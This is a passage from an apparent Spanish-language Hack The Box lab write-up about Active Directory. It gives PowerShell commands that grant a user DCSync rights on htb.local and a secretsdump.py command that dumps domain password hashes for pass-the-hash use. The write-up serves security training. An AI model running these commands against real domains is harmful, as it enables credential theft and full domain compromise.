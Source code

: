 <figure><img src="../../../.gitbook/assets/887_vmware_BloAbjIfhj.png" alt=""><figcaption></figcaption></figure>

Estos comandos le otorga al usuario **jr** el derecho DCSync en el controlador de dominio htb.local, lo que le permite replicar la base de datos del dominio y obtener hashes de contraseñas de otros usuarios.

{% code overflow="wrap" %}
```powershell
$SecPass = ConvertTo-SecureString 'Password01!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('htb.local\jr', $SecPass)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity jr -Rights DCSync
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/888_vmware_pOPOEiDj4l.png" alt=""><figcaption></figcaption></figure>

### DCSync Exploitation - Secretsdump.py

Utilizaremos la herramienta de **secretsdump** para bolcar toda la información de las contraseás (hashes) del DC. Comprobamos que hemos obtenido el hash del usuario "Administrator", lo cual podremos hacer un **Pass The Hash**.

```bash
secretsdump.py -just-dc  htb.local/jr@10.10.10.161
```

<figure><img src="../../../.gitbook/assets/889_vmware_1qixfTCcS5.png" alt=""><figcaption></figcaption></figure>
